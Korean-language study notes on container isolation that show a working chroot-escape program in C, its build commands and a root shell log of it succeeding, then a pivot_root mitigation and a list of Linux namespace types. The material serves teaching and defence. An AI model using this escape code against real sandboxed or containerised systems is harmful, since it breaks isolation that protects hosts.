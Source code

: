- chroot 탈옥하기
    - 탈옥 코드 작성 (/home/covy/escape.c)
        ```
        #include <sys/stat.h>
        #include <unistd.h>

        int main(void)
        {
            mkdir(".out",0755);
            chroot(".out");
            chdir("../../../../../");
            chroot(".");

            return execl("/bin/sh","-i",NULL);
        }
        ```
    - 실행파일 만들기
        ```
        sudo apt update
        sudo apt install build-essentia
        gcc escape.c -o escape
        ```
    - chroot로 실행하기
        ```
        root@ip-192-168-1-183:/home/covy# chroot ./ /bin/bash
        bash-5.2# ls
        bash: ls: command not found
        bash-5.2# ./escape
        # ls
        bin		   boot  etc   lib		  lib64       media  opt   root  sbin		     snap  sys	usr
        bin.usr-is-merged  dev	 home  lib.usr-is-merged  lost+found  mnt    proc  run	 sbin.usr-is-merged  srv   tmp	var
        ```

- 탈옥 방지하기 - pivot_root 사용
    ```
    root@ip-192-168-1-183:/home/covy# unshare --mount /bin/bash
    root@ip-192-168-1-183:/home/covy# cd ..
    root@ip-192-168-1-183:/home# mkdir pivot_covy
    root@ip-192-168-1-183:/home# mount -t tmpfs -o size=100M none pivot_covy
    root@ip-192-168-1-183:/home# cp -r /home/covy/* /home/pivot_covy/
    root@ip-192-168-1-183:/home# mkdir -p /home/pivot_covy/old_fs
    root@ip-192-168-1-183:/home# cd /home/pivot_covy/
    root@ip-192-168-1-183:/home/pivot_covy# pivot_root . old_fs
    root@ip-192-168-1-183:/home/pivot_covy# ./escape
    ```


## Namespace

- Namespace의 종류
    - MNT : 마운트 시, 파일 시스템을 격리
    - PID : Process ID를 격리한다. Namespace가 서로 다른 프로세스끼리는 접근할 수 없게 된다.
    - NET : 네트워크 리소스를 격리한다. 가상의 네트워크 장치를 할당한다.
    - IPC : IPC(Inter-Process Communication)를 격리하여, 다른 프로세스의 접근을 방지한다.
    - UTS : 호스트 이름과 도메인 이름을 격리한다. (UNIX Timesharing System)
    - USER : UID, GID 정보를 격리한다.
